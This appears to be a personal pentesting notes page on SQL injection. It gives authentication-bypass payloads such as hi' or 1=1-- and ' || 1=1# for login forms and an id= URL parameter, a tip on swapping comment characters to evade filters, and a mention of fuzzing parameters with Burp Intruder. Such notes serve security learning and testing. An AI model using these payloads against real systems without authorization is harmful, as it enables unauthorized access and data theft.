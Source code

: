 ```
enter sql type

```

use error codes to look for what is happening behind the scenes for example some SQL querys could be filtered

one idea is that you may have to replace the following special characters

```
replace
-- with #
or with || 
```

so try

```
' || 1=1# 

```



### Inline SQL injection

http://securityidiots.com/Web-Pentest/SQL-Injection/

Inject part of SQL into username field and the other part into Password field

```

```

More tests

```
hi' or 1=1--

```
inject into forms
```

Login: hi' or 1=1--  
Pass: hi' or 1=1--  

```

inject into id=

```
http://duck/index.asp?id=hi' or 1=1--

```
### fuzzing id= with burp

fuzzing all of the fields in the new site

I fired up BurpSuite, captured the request to contact.php?id=1 and send it to Intruder.
